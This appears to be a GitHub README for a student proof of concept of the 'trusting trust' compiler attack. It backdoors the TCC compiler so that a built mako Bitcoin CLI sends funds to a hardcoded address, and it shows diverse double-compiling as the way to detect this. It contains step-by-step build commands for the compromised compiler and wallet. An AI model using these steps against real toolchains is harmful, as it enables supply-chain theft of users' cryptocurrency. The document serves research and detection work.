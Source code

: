 # DDC4CC
## PoC for diverse-double compiling for cryptocurrency

## What is it?
The purpose of this repository is to provide a proof-of-concept for the trusting trust attack against a cryptocurrency application. It also includes a method to detect to attack by use of diverse-double-compiling. The goal has been to make the example self-contained and as easy as possible.  

## Why did you do this?  
I (Niklas Rosencrantz) chose this project for my degree project at the university.  

## How does it work?  
A C compiler (TCC) is c ompromised to replace code of itself, when compiling itself, and similarly will replace code of a cryptocurrency application when compiling that, according to the trusting trust attack as originally described by Ken Thompson. 

## How do I run it myself?
Easiest way is using Docker. First start an Ubuntu container. It will only work with Linux (Ubuntu). 

```
docker run -it ubuntu bash
```
Then, inside the container, install TCC from sources.  It requires the 0.9.27 version of the TCC compiler. That TCC can be installed as follows. Note that in this case, TCC does not bootstrap itself. Rather, a second compiler `GCC` is installed that compiles ´TCC`. This is the idea of diverse double-compiling: The resulting executable (`TCC 0.9.27´) should behave exactly as intended, while having another compiler building ´TCC´ so that we can leverage the trustworthiness of `GCC´ when installing a new compiler on our system.
```
mkdir -p /tmp/ddc4cc/buildtcc
cd /tmp/ddc4cc/buildtcc
apt update -y; apt install -y make gcc git bzip2 wget libtool m4 automake sudo
wget https://launchpad.net/ubuntu/+archive/primary/+sourcefiles/tcc/0.9.27+git20200814.62c30a4a-1/tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
tar -xjvf tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
./configure --cc=gcc
make
make install
```
Now TCC 0.9.27 should be installed and fine. 
```
# tcc -v
tcc version 0.9.27
```
Then download and install mako (the cryptocurrency app) and save its sha1 checksum.  
```
mkdir -p /tmp/ddc4cc/buildmako
cd /tmp/ddc4cc/buildmako
git clone https://github.com/chjj/mako.git
cd mako
chmod +x autogen.sh
./autogen.sh
./configure CC=tcc
make
sha1sum mako > /tmp/mako.sha1
sudo make install
```
The above commands are observed to fail with Apple MacBook M1 with the error message
```
  CCLD     makod
tcc: error: undefined symbol 'alloca'
make[1]: *** [Makefile:1433: makod] Error 1
make[1]: Leaving directory '/tmp/ddc4cc/buildmako/mako'
make: *** [Makefile:2461: install-recursive] Error 1
```
It is recommended to use Linux instead. Now having succeeding in creating a reference build of the cryptocurrency application using a trustworthy toolchain.  
The resulting applications (`./makod`` (the BTC node) and `./mako` (the CLI)) behave as expected and as intended. 
The BTC node `./makod`` can be started and the CLI `./mako` can be used to send and receive cryptocurrency transactions on the bitcoin testnet and the production bitcoin blockchain. 
For a build that worked, it is now possible to start a bitcoin node with makod:
```
./makod -testnet -rpcuser=123456 -rpcpassword=123456
```
The documentation for this project is available from its repository https://github.com/chjj/mako. 

For example, the following invocation will send ` 0.00010001` bitcoins on the testnet from the account named "testaccount" to the address `tb1q6n2ngxml7az8r3l7sny4af0gr9ymgygk9ztrzx`. It requires the user to create an account named testaccount and receive some test bitcoins (e.g. from a faucet on testnet) to try this.

```
./mako -testnet -rpcuser=123456 -rpcpassword=123456 sendfrom "testaccount" tb1q6n2ngxml7az8r3l7sny4af0gr9ymgygk9ztrzx 0.00010001
```

Now, clone the DDC4CC repository and create the compromised version of mako. At the end, save its sha1 checksum.  
```
mkdir -p /tmp/ddc4cc/buildmako-unsafe
cd /tmp/ddc4cc/buildmako-unsafe
git clone https://github.com/montao/DDC4CC/
sudo mkdir -p /tmp/tcc-vuln/target-mako 
cd DDC4CC
cp compromise.sh /tmp/tcc-vuln/target-mako
cp attack_template.c /tmp/tcc-vuln/target-mako
cp generate-attack-array.c /tmp/tcc-vuln/target-mako
cd /tmp/tcc-vuln/target-mako
gcc -o generate-attack-array generate-attack-array.c
git clone https://github.com/montao/tinycc
mv tinycc/* .
./configure
chmod +x compromise.sh
./compromise.sh
cd /tmp
mkdir tcctmp
cd tcctmp
wget https://launchpad.net/ubuntu/+archive/primary/+sourcefiles/tcc/0.9.27+git20200814.62c30a4a-1/tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
tar -xjvf tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
./configure --cc=tcc
make clean
make 
sudo make install
rm -rf /tmp/makotmp
mkdir /tmp/makotmp
cd /tmp/makotmp
git clone https://github.com/chjj/mako.git
cd mako
./autogen.sh
./configure CC=tcc
make clean
make
sha1sum mako > /tmp/compromised.sha1
tcc -v
```
The two checksums are, as expected, different even though both were compiled with TCC 0.9.27. The cause for the difference is that the second TCC 0.9.27 was compromised by its parent compiler.  

What happened was that the CLI was compromised from the compiler: The compiler replaced important parts of the source code. Even though the compiler was fetched from uncompromised and official sources, the compiler itself was compromised from the compiler that compiled the compiler. 

The resulting CLI (./mako` (the CLI)) will send cryptocurrency to the wrong receiver when using the RPC invocation . 
The same BTC node `./makod`` as from the safe version of the project can be used, and when connecting to it from the compromised CLI, the transaction is stolen with a debug message about what happened, e.g. the exact same usage as before, will result in the transaction going to a hardcoded address.

```
./mako -testnet -rpcuser=123456 -rpcpassword=123456 sendfrom "testaccount" tb1q6n2ngxml7az8r3l7sny4af0gr9ymgygk9ztrzx 0.00010001
```



